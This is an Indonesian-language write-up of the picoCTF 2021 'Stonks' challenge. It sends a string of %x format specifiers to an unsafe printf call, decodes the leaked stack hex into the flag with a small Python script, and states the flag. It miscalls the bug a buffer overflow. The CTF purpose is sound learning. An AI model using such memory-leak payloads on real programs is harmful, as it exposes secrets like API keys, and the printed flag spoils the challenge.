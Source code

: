 # Stonks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`

## Hints
Okay, maybe I'd believe you if you find my API key.

## Solving
lihat ke **vuln.c** disana ada baris yang berisi
>printf(user_buf);

itu kita bisa exploit menggunakan anomali "buffer_overflow" dengan memasukkan input di bawah ini,
pertama kita masuk ke terminal ketikkan:
>nc mercury.picoctf.net 53437

masukkan input seperti dibawah ini
![](Screenshot%20from%202021-12-09%2021-25-36.png)
lalu masukkan kode buffernya:
```
x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xx%x%x%x%x%
```

>ini akan menimpa data yang berdekatan dan menyebabkan data itu terlihat di terminal kita.

data yang terlihat dari exploitasi tersebut:
```
x8f9b3f0804b00080489c3f7f6bd80ffffffff18f99160f7f79110f7f6bdc708f9a18028f9b3d08f9b3f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ff96007df7fa6af8f7f79440cc1d6100
```

konversikan dari hex ke ascii di https://www.rapidtables.com/convert/number/hex-to-ascii.html
akan ketemu baris seperti ini
>ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ}

kode ini diacak jadi kita harus memecahkannya terlebihdahulu, bisa dengan cara manual atau bisa juga dengan menggunakan bahasa pemrograman, di sini saya menggunakan python untuk men-decode baris di atas.

buat program python untuk decoder
```
s='ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ}'

from contextlib import suppress

print()

for x in range(0,len(s),4):

	with suppress(Exception):

		print(s[x+3],end="")

	with suppress(Exception):

		print(s[x+2],end="")

	with suppress(Exception):

		print(s[x+1],end="")

	with suppress(Exception):

		print(s[x],end="")

  

print("\n")
```
jalankan akan ketemu kode
>picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
## Flag
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}

## Referensi
https://www.youtube.com/watch?v=ctpQdH-GGqY
https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/Stonks.md
https://github.com/vivian-dai/PicoCTF2021-Writeup/blob/main/Binary%20Exploitation/Stonks/script.py